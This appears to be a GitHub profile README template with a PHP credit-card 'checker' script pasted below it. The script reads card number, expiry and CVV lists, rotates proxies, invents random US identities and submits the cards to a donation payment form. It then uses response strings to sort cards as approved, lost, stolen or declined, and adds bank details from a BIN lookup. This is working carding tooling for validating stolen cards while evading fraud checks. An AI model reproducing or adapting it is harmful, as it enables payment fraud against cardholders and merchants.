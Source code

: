 - 👋 Hi, I’m @Dolceka230
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Dolceka230/Dolceka230 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
<?php


error_reporting(0);
set_time_limit(0);
error_reporting(0);
date_default_timezone_set('America/Buenos_Aires');


function multiexplode($delimiters, $string)
{
  $one = str_replace($delimiters, $delimiters[0], $string);
  $two = explode($delimiters[0], $one);
  return $two;
}
$lista = $_GET['lista'];
$cc = multiexplode(array(":", "|", ""), $lista)[0];
$mes = multiexplode(array(":", "|", ""), $lista)[1];
$ano = multiexplode(array(":", "|", ""), $lista)[2];
$cvv = multiexplode(array(":", "|", ""), $lista)[3];

function GetStr($string, $start, $end)
{
  $str = explode($start, $string);
  $str = explode($end, $str[1]);
  return $str[0];
}

function rebootproxys()
{
  $poxySocks = file("proxy.txt");
  $myproxy = rand(0, sizeof($poxySocks) - 1);
  $poxySocks = $poxySocks[$myproxy];
  return $poxySocks;
}
$poxySocks4 = rebootproxys();

////////////////////////////===[Randomizing Details Api]

$get = file_get_contents('https://randomuser.me/api/1.2/?nat=us');
preg_match_all("(\"first\":\"(.*)\")siU", $get, $matches1);
$name = $matches1[1][0];
preg_match_all("(\"last\":\"(.*)\")siU", $get, $matches1);
$last = $matches1[1][0];
preg_match_all("(\"email\":\"(.*)\")siU", $get, $matches1);
$email = $matches1[1][0];
preg_match_all("(\"street\":\"(.*)\")siU", $get, $matches1);
$street = $matches1[1][0];
preg_match_all("(\"city\":\"(.*)\")siU", $get, $matches1);
$city = $matches1[1][0];
preg_match_all("(\"state\":\"(.*)\")siU", $get, $matches1);
$state = $matches1[1][0];
preg_match_all("(\"phone\":\"(.*)\")siU", $get, $matches1);
$phone = $matches1[1][0];
preg_match_all("(\"postcode\":(.*),\")siU", $get, $matches1);
$postcode = $matches1[1][0];

////////////////////////////===[Zone Details]

$username = ' Your Zone Username';
$password = 'zone password';
///$port = zone port;
$session = mt_rand();
$super_proxy = 'Zone url';

////////////////////////////===[For Authorizing Cards]

$ch = curl_init();
//////////======= LUMINATI
///curl_setopt($ch, CURLOPT_PROXY, "http://$super_proxy:$port");
//curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password"); Uncomment while using Zones
//////////======= Socks Proxy
curl_setopt($ch, CURLOPT_PROXY, $poxySocks4);
curl_setopt($ch, CURLOPT_URL, ' ');
curl_setopt($curl, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
'accept:  ',
'accept-encoding:   ', 
'content-type:  ',
'origin:  ',
'referer:  ',
'sec-fetch-dest: empty',
'sec-fetch-mode: cors',
'sec-fetch-site: same-site'));
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, '  ');

 $result = curl_exec($ch);
 $token = trim(strip_tags(getStr($result1,'"id": "','"')));


//////2req 
$ch = curl_init();
///curl_setopt($ch, CURLOPT_PROXY, "http://$super_proxy:$port");
//curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password"); 
//////////======= Socks Proxy
curl_setopt($ch, CURLOPT_PROXY, $poxySocks4);
curl_setopt($ch, CURLOPT_URL, ' ');
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
///'Host: ',
  'Origin: ',
  'Accept-Encoding: ',
  'Referer: ',
  'content-type: ',
  'Cookie: ',
  'accept: ',
  'sec-fetch-dest: empty',
  'sec-fetch-mode: cors',
  'sec-fetch-site: same-origin',
   ));
curl_setopt($ch, CURLOPT_POSTFIELDS,' ');
  $result2 = curl_exec($ch);
 $message = trim(strip_tags(getstr($result2,'"message":"','"')));

///////////////////////// Bin Lookup Api //////////////////////////

$cctwo = substr("$cc", 0, 6);

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://lookup.binlist.net/'.$cctwo.'');
curl_setopt($ch, CURLOPT_USERAGENT, $user_agent);
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
'Host: lookup.binlist.net',
'Cookie: _ga=GA1.2.549903363.1545240628; _gid=GA1.2.82939664.1545240628',
'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8'
));
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS, '');
$fim = curl_exec($ch);
$fim = json_decode($fim,true);
$bank = $fim['bank']['name'];
$country = $fim['country']['alpha2'];
$type = $fim['type'];

if(strpos($fim, '"type":"credit"') !== false) {
	$type = 'Credit';
} else {
	$type = 'Debit';
}

/////////////////////////// [Card Response]  //////////////////////////

if(strpos($result, '/donations/thank_you?donation_number=','' )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,'"cvc_check": "pass"')){
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "Thank You For Donation." )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "Thank You." )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,'"status": "succeeded"')){
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, 'Your card zip code is incorrect.' )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV - Incorrect Zip)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "incorrect_zip" )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV - Incorrect Zip_ð½ððððð â)ã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "Success" )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "succeeded." )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,"fraudulent")){
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãFraudulent Card_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,'"type":"one-time"')){
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (ÍCVV)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, 'Your card has insufficient funds.')) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãInsufficient Funds_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "insufficient_funds")) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãInsufficient Funds_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "lost_card" )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãLost Card_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "stolen_card" )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãStolen Card_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, 'security code is incorrect.' )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (CCN)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, 'security code is invalid.' )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (CCN)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "incorrect_cvc" )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãApproved (CCN)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "pickup_card" )) {
    echo '<span class="badge badge-success">#Approved</span> â </span> </span> <span class="badge badge-success">'.$lista.'</span> â <span class="badge badge-info"> ãPickup Card (Reported Stolen Or Lost)_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, 'Your card has expired.')) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãExpired Card_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "expired_card" )) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãExpired Card_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, 'Your card number is incorrect.')) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãIncorrect Card Number_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "incorrect_number")) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãIncorrect Card Number_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "service_not_allowed")) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãService Not Allowed_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "do_not_honor")) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãDeclined : Do_Not_Honor_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, 'Your card was declined.')) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãCard Declined_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "generic_decline")) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãDeclined : Generic_Decline_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,'"cvc_check": "unavailable"')){
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãCVC_Check : Unavailable_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,'"cvc_check": "unchecked"')){
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãCVC_Unchecked : Proxy Error_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,'"cvc_check": "fail"')){
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãCVC_Unchecked : Fail_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,"parameter_invalid_empty")){
    echo '<span class="badge badge-danger">ãDeclinedã</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãDeclined : Missing Card Details_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,"lock_timeout")){
    echo '<span class="badge badge-danger">#Declined</span> â </span> </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãAnother Request In Process : Card Not Checked_ð½ððððð âã</span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif (strpos($result,'Your card does not support this type of purchase.')) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãCard Doesnt Support Purchase_ð½ððððð âã </span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,"transaction_not_allowed")){
    echo '<span class="badge badge-danger">#Declined</span> â </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãCard Doesnt Support Purchase_ð½ððððð âã </span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,"three_d_secure_redirect")){
     echo '<span class="badge badge-danger">#Declined</span> â </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãCard Doesnt Support Purchase_ð½ððððð âã </span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, 'Card is declined by your bank, please contact them for additional information.')) {
    echo '<span class="badge badge-danger">#Declined</span> â </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ã3D Secure Redirect_ð½ððððð âã </span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result,"missing_payment_information")){
     '<span class="badge badge-danger">#Declined</span> â </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãMissing Payment Informations_ð½ððððð âã </span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
elseif(strpos($result, "Payment cannot be processed, missing credit card number")) {
     '<span class="badge badge-danger">#Declined</span> â </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãMissing Credit Card Number_ð½ððððð âã </span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}
else {
    echo '<span class="badge badge-danger">#Declined</span> â </span> <span class="badge badge-danger">'.$lista.'</span> â <span class="badge badge-info"> ãDead Proxy/Error Not listed_ð½ððððð âã </span> â</span> <span class="badge badge-info"> ã '.$bank.' ('.$country.') - '.$type.' ã </span> </br>';
}

  curl_close($curl);
  ob_flush();
  //////=========Comment Echo $result If U Want To Hide Site Side Response
  echo $result;

///////////////////////////////////////////////===========================Edited By Reboot13================================================\\\\\\\\\\\\\\\

?>
